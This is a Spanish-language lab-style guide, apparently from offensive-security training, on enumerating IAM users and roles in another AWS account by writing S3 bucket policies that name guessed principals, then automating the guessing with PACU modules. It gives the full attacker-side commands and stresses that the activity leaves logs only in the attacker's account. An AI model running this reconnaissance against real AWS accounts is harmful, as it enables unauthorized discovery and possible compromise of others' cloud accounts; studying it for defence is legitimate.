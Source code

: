 # Técnica de Enumeración de Usuarios IAM en Cuentas AWS Objetivo

## Requisitos previos:
- Una cuenta AWS propia para realizar la enumeración
- Conocer el ID de cuenta AWS del objetivo (obtenido con la técnica anterior)

## Pasos:

1. **Crear un bucket S3 en tu cuenta de atacante**
   - Ejecutar `aws --profile attacker s3 mb s3://[nombre-bucket-único]`
   - Por ejemplo: `aws --profile attacker s3 mb s3://offseclab-dummy-bucket-$RANDOM-$RANDOM-$RANDOM`

2. **Crear una política de bucket con un usuario IAM objetivo**
   - Crear un archivo JSON (grant-s3-bucket-read.json) que:
     - Defina un permiso `s3:ListBucket`
     - Especifique en `Principal` un ARN de usuario de la cuenta objetivo
     - Ejemplo: `"Principal": {"AWS": ["arn:aws:iam::123456789012:user/cloudadmin"]}`

3. **Aplicar la política al bucket**
   - Ejecutar `aws --profile attacker s3api put-bucket-policy --bucket [nombre-bucket] --policy file://grant-s3-bucket-read.json`
   - Si no hay error, el usuario especificado existe en la cuenta objetivo
   - Si hay error `MalformedPolicy: Invalid principal in policy`, el usuario no existe

4. **Probar diferentes nombres de usuario o roles**
   - Crear variantes de la política con diferentes nombres de usuarios/roles a probar
   - Para enumerar de forma sistemática, crear un archivo con una lista de nombres probables
   - Ejemplo: `echo -n "admin\nsecurity_auditor\ncontent_creator..." > /tmp/role-names.txt`

5. **Automatizar el proceso con herramientas como PACU**
   - Instalar PACU: `sudo apt install pacu`
   - Iniciar PACU: `pacu`
   - Importar credenciales: `import_keys [perfil-atacante]`
   - Para enumerar roles: `run iam__enum_roles --word-list /tmp/role-names.txt --account-id [ID-cuenta-objetivo]`
   - Para enumerar usuarios: `run iam__enum_users` con parámetros similares

## Observaciones importantes:
- Esta técnica aprovecha que AWS valida la existencia de una identidad al aplicar políticas
- Funciona no solo con políticas de bucket S3 sino también con roles (política de confianza AssumeRole)
- Las actividades quedan registradas en la cuenta del atacante, no en la cuenta objetivo
- En algunos casos, además de enumerar identidades, se puede detectar si los roles son asumibles
- Si un rol es asumible, puede proporcionar acceso directo a la cuenta objetivo (compromiso inicial)

